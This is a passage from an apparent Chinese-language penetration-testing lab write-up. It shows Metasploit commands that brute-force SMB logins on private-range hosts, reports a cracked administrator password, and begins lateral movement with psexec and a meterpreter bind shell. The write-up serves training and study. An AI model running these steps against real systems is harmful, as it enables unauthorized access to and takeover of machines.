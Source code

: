 
尝试smb爆破

use auxiliary/scanner/smb/smb_login

set rhosts 192.168.93.10,20,30

set user_file /root/ur.txt

set pass_file /root/pd.txt

![img](assets/1685516118500-7826e8c0-3cf1-408e-8d9a-eb36d282ca96-1703395172698101.png)![img](assets/1685516130051-7d601331-bebe-47f1-853d-56c8215e4a2e-1703395172699103.png)

成功爆出20和30的账号密码administrator:123qwe!ASD

![img](assets/1685518025745-d263dbda-36e7-44e9-950a-a891d0b138ea-1703395172699105.png)



## 4.横向移动

### 获取信息

通过smb登录30主机，也可以登录20主机

use exploit/windows/smb/psexec

set payload windows/meterpreter/bind_tcp

set rhost 192.168.93.30

set smbuser administrator

set smbpass 123qwe!ASD
